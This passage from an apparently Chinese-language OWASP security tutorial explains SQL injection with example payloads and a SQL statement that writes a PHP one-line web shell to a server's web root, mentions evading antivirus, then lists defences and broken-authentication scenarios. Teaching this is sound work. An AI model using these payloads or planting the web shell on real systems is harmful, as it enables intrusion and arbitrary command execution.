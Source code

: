 ```
http://example.com/app/accountView?id=' or '1'='1
```

那么实际执行的语句是

```sql
SELECT * FROM accounts WHERE custID='' or '1'='1'
```

这样会导致绕过你写的SQL语句，以黑客自己的意思执行SQL语句。

对于第二个SQL语句，我们这样请求

```
password=pass' and '1'='1
password=pass' and '1'='2
……
```

那么实际执行的语句是

```sql
select * from user where username='admin' and password='pass' and '1'='1';
select * from user where username='admin' and password='pass' and '1'='2';
……
```

你可以任意构造你的SQL语句。大多数时候的数据库权限还挺高的。完全可以通过数据库的select的语句写shell，比如写一个一句话木马：

```sql
Select '<? php eval($_POST[cmd]);?>' into outfile 'F:/wwwroot/eval.php';
```

什么是一句话木马？

一句话又称为小马，通过一个叫中国菜刀的工具（类似工具还有蚁剑等）就可以连接这种木马，因为简单的木马只需要一句话`<? php eval($_POST[pass]);?>`故称为一句话木马。虽然只有一句话，但可以通过软件实现目录读取、任意命令执行、数据库读取等功能。当然，这么简单很容易被现在的杀软杀掉，怎么重新构造这一句话就看你的技术了。

相对应的就是Web大马，区别于一句话需要额外的软件配合，大马一般都是一个独立的文件，可以直接在浏览器中以网页的形式执行相关类似的功能。

两者各有各的好处。

再说回SQL注入，防止注入漏洞需要将不可信数据从命令及查询中区分开。

1.最佳选择是使用安全的API，完全避免使用解释器或提供参数化界面的API。但要注意有些参数化的API，比如存储过程（stored procedures），如果使用不当，仍然可以引入注入漏洞。

2.如果没法使用一个参数化的API，那么你应该使用解释器具体的escape语法来避免特殊字符。

3.使用正面的或“白名单”的具有恰当的规范化的输入验证方法同样会有助于防止注入攻击。但由于很多应用在输入中需要特殊字符，这一方法不是完整的防护方法。

因为SQL语句可以写的很骚，所以说注入这里其实是很有意思的。

如果想深入学习SQL注入，我推荐一本书《SQL注入攻击与防御》。

#### 失效的身份认证和会话管理

在OWASP2017中的场景有这么3个

```
场景#1：机票预订应用程序支持URL重写，把会话ID放在URL里：
http://example.com/sale/saleitems;jsessionid=2P0OC2JDPXM0OQSNDLPSKHCJUN2JV?dest=Hawaii
该网站一个经过认证的用户希望让他朋友知道这个机票打折信息。他将上面链接通过邮件发给他朋友们，并不知道自己已经泄漏了自己的会话ID。当他的朋友们使用上面的链接时，他们将会使用他的会话和信用卡。
场景#2：应用程序超时设置不当。用户使用公共计算机访问网站。离开时，该用户没有点击退出，而是直接关闭浏览器。攻击者在一个小时后能使用相同浏览器通过身份认证。盐
场景#3：内部或外部攻击者进入系统的密码数据库。存储在数据库中的用户密码没有被哈希和加盐, 所有用户的密码都被攻击者获得。
```
